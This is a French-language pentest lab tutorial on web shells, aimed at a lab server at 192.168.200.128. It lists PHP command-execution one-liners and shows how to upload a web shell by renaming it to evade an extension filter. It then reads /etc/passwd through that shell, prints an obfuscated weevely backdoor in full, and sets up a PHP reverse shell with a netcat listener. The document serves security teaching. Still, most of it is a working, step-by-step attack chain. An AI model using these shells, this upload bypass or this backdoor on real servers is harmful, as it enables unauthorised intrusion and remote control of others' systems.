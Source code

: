 # 5. Web Shell

Un **code encoquillé** \(en Anglais web shell\) est une interface de type shell Web malveillante qui permet un accès et un contrôle à distance à un serveur Web en permettant l'exécution de commandes arbitraires.

```text
# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

Maintenant que nous connaissons le mot de passe de l'admin nous pouvons nous connecter à l'interface de management des images du site pour y déposer un script php.

![](https://lh5.googleusercontent.com/QV2Q2-R_heHH89G7BglUyIEq3FvWoSzDAMS4swWOMcMQh6NWVTlaP5BhNOOH7wCVMvlZr_2Sm7ZZLiIV2roOdqBmMlUX1Sq9EpIswMf0H6mo_2GZ3GLY7HUos8EGNbPkLy-TZRvF)

![](https://lh5.googleusercontent.com/qcwb1xbur2PRCIBoOMwGg7vs1qrGdNgiu8EieNASoqzRaTmkQ-kwKx-Mv143SPlUe9186jd4UdUJiubwoEbEJVdSpsulNnT1dW4EaJQsk3sSGx09UicdPNV6n8jE8s8hoRwmvqvv)

Création d'un script **myshell.php** permettant d'exécuter des commande shell sur une machine.

```text
<?php
  system($_GET['cmd']);
?>  
```

Essayons de télécharger le script **myshell.php** sur le serveur en passant l'interface de management des images.

![](https://lh4.googleusercontent.com/rgVWBHSZt8yig0Su8vLFcMW-5wmFyoLLsdnLLUSC3Rwrtg_-XVkI_OT5bu14-ds4OmdlQh9KNevseWuiYq7yTL63qO79A8pH1NYo6c0tpMqRYssEiVjquODhV8_9ivwMchgOYHC8)

{% hint style="info" %}
Le site n'autorise pas le téléchargement de fichier PHP
{% endhint %}

![](https://lh5.googleusercontent.com/ORAUqtYxLgdwGfNtoTX0OVtH1MtT40X47LCXtGoId6nBVHz7ThSYE_pmtKDUgZnsdXuXMsrpAePj5IWXCn8HOzUq7fvnJWPPe1AI_siYQ-vD02OSx7_B-9qFjJ_oXr64s5cgkDH_)

Nous pouvons essayer de contourner cette sécurité en renommant le fichier \(Linux est sensible à la case\)

![](https://lh5.googleusercontent.com/iGYURs7TdRw3rVhKQPuQx0cfTvA-BjhOARy98QRWKsN_QXCPSVvjQis1b-1xh9zJcXel1kCAXOc9TpdF0fXG7K0wyjaBtR88c_y3yKmAA9Okr_ecxm6IdTuepnQPiZAR8qdx-N93)

![](https://lh5.googleusercontent.com/zIgUlwS4UjqVbWLiE2MSxk22Sif80IJ6res4rLxuOafrW6lEAPsie0yLdFnJAwhlPUQFMcuFUBBIW7pzvzQhnc9jhXCf7j7KXsH_zuF6b1Wn4bRkQiqDJdNvHsYOC6h0bY6ekwP3)

![](https://lh6.googleusercontent.com/Biz1nU852Rdfw5OwB4YxzmlAl9-lncqaytFJu3sSjx7AWYwD3w5SzPxSPburaItJW8YUTwIuKeDEHIX9lrNDrF2Z4a-TJeiRc05HveXdtRrFD90pd0fUFxr0BatPyKnI4OrkhYud)

Le script PHP **myshell.php** est à présent sur le serveur. En étudiant rapidement le code source de la page on arrive facilement à trouver le chemin pour pouvoir l'exécuter.

![](https://lh3.googleusercontent.com/S8mi83S4QgPCocfjdIA3Srl8dYR99-rTkJj3ghJTK4SNVr7ij5k3NrKU2R_joKNdvXis0fU4vv7BN8mr-r2P5adaED1V5jy6YZ-qLRyi5RPo9gyReK412_Q-Fy8E-ku519qTbsnL)

Nous pouvons tester a présent plusieurs combinaisons d'URL pour observer sont fonctionnent sur le serveur

{% embed url="http://192.168.200.128/admin/uploads/myshell.PHP" %}

![](https://lh3.googleusercontent.com/LfGQytEAlBk25ObT-OjAYwJ9h-QKghm_x5hLCRkPj1mpi8XO2EE4uEX2WxabruBGJYsz62iiDGPHSDybTr7wRmfgfUA5CeoODv8Q41RIM-lKc0aEKbKy--85Og7JXTz-1mWiFkAj)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls

)

![](https://lh5.googleusercontent.com/Q6zAe_Z3bGPJfRu4i5gj5ifycZAXWMzyBd_ezdxuA8wJLhsALAgPj_e7V9tOnBT3L7q6Te6ejMD_gY738JJ-kFQHngsqDeBm9ubqQKm94W_ba5ovlA0_4eb0gUe-C9CqwvcvsazQ)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname -a](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname)

![](https://lh6.googleusercontent.com/fARo-VBvpcWJM13zkE7e22Zd7XNqaWNNZRthg9Q7EhAi3HWNJItCXMBGNvX66HsnMS-RMOdydjzE0XTd6a-C_eL8ekHrzO1kiLjne1-S4Ls3YvgOJn1vWShuyJ46zcjTW2JQekX1)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat /etc/passwd](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat)

![](https://lh6.googleusercontent.com/Owl-mHISJHWmBglIg_Gi68UhiVEVxuOY1jr8FuB9vLoDgZs4dRMNBFZ5YfjThjX8PoYWwIzAgy5TDSzsNr18heahSqiATo-7QuLU1lpUxHPXnsqWfbQSGcXNX-G6tjxMMH8USJAE)

### weevely

```text
$ sudo apt install weevely
$ weevely generate cpnv shell.php3
```

```text
$ more shell.php3
```

```text
<?php
$R='(z<$j=0;(z<$j<$cz<&&$z<i<$l);$z<j++z<,$i++){$o.z<z<=$t{$i}^$k{$jz<};}}rz<z<eturn $oz<;}z<z<if (@p';
$N='$k="z<c2326efz<7";$kh=z<"7acfd247z<f2z<44";$z<z<kf="758f8ba3e10fz<";$p=z<"kbSg1X0z<FIMKz<h7LAH";';
$u='ntz<ents();@ob_end_z<clean();$rz<=@base6z<4_enz<coz<z<de(@x(@gzcompz<ress($o),$z<k));z<prz<intz<("$p$kh$r$kf");}';
$G='start()z<z<;@ez<val(@gzuz<ncompress(@z<x(@base6z<4_decoz<de($m[1z<]),z<$k))z<);$o=@ob_gz<et_z<coz<';
$f='fz<unctiz<z<on x($t,$k){$z<c=strz<lenz<($k);$lz<=sz<trlen($t)z<z<;$o="";foz<z<r($i=0;$i<$l;){for';
$a='reg_matcz<h("/$kh(.+)$z<kz<fz</",@file_get_z<contents("pz<hz<p://inz<put"),z<$m)==z<z<1) {@ob_';
$h=str_replace('d','','cdrdeate_dfddunctdion');
$y=str_replace('z<','',$N.$f.$R.$a.$G.$u);
$A=$h('',$y);$A();
?>
```

![](../.gitbook/assets/image%20%2827%29.png)

{% embed url="http://192.168.200.128/admin/uploads/shell.php3" %}

![](../.gitbook/assets/image%20%2824%29.png)

```text
$ weevely http://192.168.200.128/admin/uploads/shell.php3 cpnv
```

![](../.gitbook/assets/image%20%2829%29.png)

### **Reverse-shell**$ weevely [http://192.168.200.128/admin/uploads/shell.php3](http://192.168.200.128/admin/uploads/shell.php3) cpnv

Il convient de clarifier dans un premier temps l’intérêt d’utiliser un **reverse-shell** et ce que c’est. Un **reverse-shell** n’est autre qu’un shell \(terminal/console\) contrôlé à distance par un utilisateur. Un shell simple se traduit par une attente de connexion sur un port précis par la machine à contrôler. L’utilisateur va se connecter sur ce port et récupérer le terminal interactif. Le **reverse-shell** est l’inverse : c’est l’utilisateur qui place un processus en écoute sur un port précis, et c’est la machine à contrôler qui établit la connexion vers la machine de l’utilisateur pour lui transmettre le contrôle de son terminal.

{% hint style="info" %}
L’intérêt du **reverse-shell** ? Plus besoin de se soucier des IPs des machines distantes à contrôler puisque ce sont elles qui se connectent à l’utilisateur. De plus, comme la connexion est sortante à partir de la machine à contrôler, les pare-feux/routeurs bloquent rarement ce type de flux.
{% endhint %}

{% embed url="https://github.com/pentestmonkey/php-reverse-shell/archive/master.zip" %}

Renommez le fichier **php-reverse-shell.php** en fichier **php-reverse-shell.php3** pour contourner la protection interdisant le téléchargement des fichier PHP sur le serveur.

![](https://lh4.googleusercontent.com/Mec_lu-uhwQRZiSlQsIJrB38SL7DaKxxxp_75CEkMHNEChlnY79e7l3eaDXNqyIVV2nI-3b2n8MOliQbizs4O9OR6I4P5FCM31RpQcBMgyC5mZf8c03UcTckV3dy5SIIokiyHaBr)

Modifier le fichier **php-reverse-shell** en indiquant l'adresse IP du client cible et du port à joindre.

![](https://lh4.googleusercontent.com/KIcQ6UwZiyY5yCI3ZtjSr1MWQw2f1TmvPv7hTHk0tUqiTWZQf3ma034kNZw2_obp7kDoVcNolOOr3cj8G2OiSmTMjK4eJC_YVN5KblP7Oz2HGhKaDwU453Zd0kY3g2x4BhnAl57A)

![](https://lh6.googleusercontent.com/-Dh9r_UdrKJUehcm1hIu-nmZMfNaOwC8McMgaGuA3TshxSKr2PlnJrk2t3AmFb_VuiIKoxK8ZKmfvGeOQcs5ep810z6GLFa2QmECOvHerJQko_eGFO9mH7_LHvgePN97E6wuEaYM)

Sur le client cible, lancez une commande netcast en écoute sur le port 1234 défini dans le fichier **php-reverse-shell** 

![](https://lh4.googleusercontent.com/eCaUPjsbnuAzpWWgCbZN6CCPq07_GjCofPKIi6oDAPNv2tjM3nkwTXnckWr8YzdxHBmcFtnmLahvGjwtmWTLr7eI14HtNdV6OSrwkLvBfgBUj4LO2uzslbVeaI2VORnGpCxf7SsX)

{% embed url="http://192.168.200.128/admin/uploads/php-reverse-shell.php3" %}

{% hint style="info" %}
Une fois le lien validé, le script PHP **php-reverse-shell** s'exécute sur le serveur et le client à accès à un shell complet du serveur limité au droit du processus apache.
{% endhint %}

![](https://lh3.googleusercontent.com/zT3VsihBolt7pVvh7rAjeL0sanv0dd0Ypa9GQkkApBPb9DbLDEgGd5XQjqMOi3Ee6iqKFj9yz4U76utontER9cEgffh32ieQCdq-wtjebN4TY4MXW-GiAG8_fo9pWmj5o_-tcsJk)

![](https://lh5.googleusercontent.com/RnenGk2Ji9b40l5jZ1TPpyHyRDeCsB2qvlo9xiyI_sIvFYMJiH4xu96u4ivTPY6ioqA1oVIeSJLrBT0r8UkYHN_-rRUTvQlsNlBkTgZZAgM45P2-QC03epTKKPFdaG9cxKdSA4-Z)

## \*\*\*\*

